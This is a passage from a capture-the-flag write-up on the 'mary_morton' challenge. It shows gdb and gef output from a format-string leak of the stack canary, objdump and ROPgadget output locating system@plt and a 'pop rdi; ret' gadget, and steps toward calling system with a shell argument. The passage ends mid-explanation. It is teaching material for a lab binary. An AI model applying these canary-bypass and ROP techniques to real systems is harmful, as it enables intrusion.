 ```
Breakpoint 1, 0x000000000040094a in ?? ()
gef➤  lx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.
Undefined command: "lx".  Try "help".
gef➤  x/4g $rbp-0x8
0x7fffffffde28: 0x217c6cddb9f90f00  0x7fffffffde70
0x7fffffffde38: 0x4008b8  0x7ffff7de59a0
gef➤  i f
Stack level 0, frame at 0x7fffffffde40:
 rip = 0x40094a; saved rip = 0x4008b8
 called by frame at 0x7fffffffde80
 Arglist at 0x7fffffffdd98, args: 
 Locals at 0x7fffffffdd98, Previous frame's sp is 0x7fffffffde40
 Saved registers:
  rbp at 0x7fffffffde30, rip at 0x7fffffffde38
```

So we can see that it is indeed the stack canary, which is at offset 23. We can also see that the offset between the stack canary and the rip register is `16`, so after the canary we will need to have an 8 byte offset before we hit the return address.

The next thing we will need to deal with is the Non-Executable stack. Since it is Non-Executable, we can't simply push shellcode onto the stack and execute it, so we will need to use ROP in order to execute code. Looking at the imports in Ghidra (`Imports>EXTERNAL`), we can see that system is in there. So we should be able to call system using it's `plt` address. First we need to find it, which can be accomplished by using objdump:

```
objdump -D mary_morton | grep system
00000000004006a0 <system@plt>:
  4008e3:    e8 b8 fd ff ff           callq  4006a0 <system@plt>
```

So the address of system is `0x4006a0`. The next thing that we will need is a ROP gadget which will pop an argument into a register for system, then return to call it. We can accomplish this by using ROPgadget:

```
$    ROPgadget --binary mary_morton | less
```

Looking through the list of ROPgadgets, we can see one that will accomplish the job:

```
0x0000000000400ab3 : pop rdi ; ret
```

So we have a ROPgadget, and the address of system which we can call. The only thing left to get is the argument for the `system` function. Originally when I was trying to solve it, I tried to get a pointer to `"/bin/sh"` and use that as an argument, until I found a much easier way specific to this challenge using gdb:

First set a breakpoint for anywhere in the program, then hit it
